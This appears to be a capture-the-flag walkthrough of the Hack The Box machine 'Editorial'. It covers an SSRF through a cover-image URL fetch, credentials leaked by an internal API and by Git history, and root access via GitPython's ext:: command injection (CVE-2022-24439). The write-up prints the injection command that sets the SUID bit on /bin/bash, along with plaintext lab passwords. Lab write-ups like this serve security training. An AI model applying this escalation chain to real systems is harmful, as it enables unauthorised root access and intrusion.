



# Editorial


Editorial is an easy Linux Hack The Box machine that starts with an exposed publishing interface and an internal API leak, then moves through Git history to recover credentials, and finally ends with a GitPython command injection path to root.

## Reconnaissance

A scan of the host revealed SSH and HTTP.

```text
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

Port 80 redirected to `editorial.htb`, so I added that hostname to `/etc/hosts` and continued with web enumeration.

## Web Enumeration

The site itself did not show much, but the navigation bar included a **Publish with us** link that led to `/upload`.



The upload page asked for book details and allowed a cover image to be fetched from a URL. When I supplied my own IP, the target made an outbound request to my server. If the requested file did not exist, the application fell back to a default image.



When the file did exist, it was fetched and stored on the target under `/static/uploads/`.



That behavior was useful because the server returned the content of the fetched file to me, which meant I could use it to probe internal services.

## Internal API Discovery

I tested a handful of common HTTP ports through the file-fetch feature. Only port 5000 responded with something useful: a JSON API.

```json
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

The most interesting endpoint was `/api/latest/metadata/messages/authors`, which leaked credentials for an internal forum and authors site.

```json
{
    "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

Those credentials also worked for SSH, which gave me the first shell and access to the user flag.

## User Escalation

### Shell as prod

In the `dev` home directory, I found an `apps` folder containing another `.git` repository. Since Git history often preserves old secrets, I inspected the commit log.

```text
git log
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
```

The earlier commit `1e84a036...` contained the source for the internal API and exposed production credentials in a comment.

```python
@app.route(api_route + '/authors/message', methods=['GET'])
def api_mail_new_authors():
    return jsonify({
        'template_mail_message': "Welcome to the team! ...\n\nUsername: prod\nPassword: 080217_Producti0n_2023!@\n..."
    })
```

That password worked for the `prod` account, giving me a second user shell.

## Root Access

### Sudo permissions

The `prod` account had permission to run a Python script as root.

```text
User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

The script cloned a repository into a local directory and used GitPython with an option that allowed the `ext` protocol.

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

i searched online about clone_from() function exploits and reach this **CVE-2022-24439** https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858 also you can search the packge GitPython version 3.1.29 to reach that exploit 

That meant I could abuse `ext::` to run commands during the clone process . I used a known GitPython / Git abuse technique to set the SUID bit on `/bin/bash`.

```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c chmod% u+s% /bin/bash"
```

After that, I launched bash with preserved privileges:

```bash
/bin/bash -p
```

That returned a root shell and allowed me to read the final flag.

## Attack Path

- Enumerate SSH and the HTTP redirect to `editorial.htb`.
- Abuse the book cover URL fetch feature to reach internal services.
- Discover the internal API on port 5000.
- Extract `dev` credentials from `/api/latest/metadata/messages/authors`.
- Log in via SSH as `dev`.
- Inspect Git history in `~/apps/.git`.
- Recover `prod` credentials from an earlier commit.
- Log in as `prod`.
- Abuse sudo access to run the GitPython cloning script as root.
- Exploit `protocol.ext.allow=always` to execute a command and set the SUID bit on bash.
- Run `/bin/bash -p` to become root.
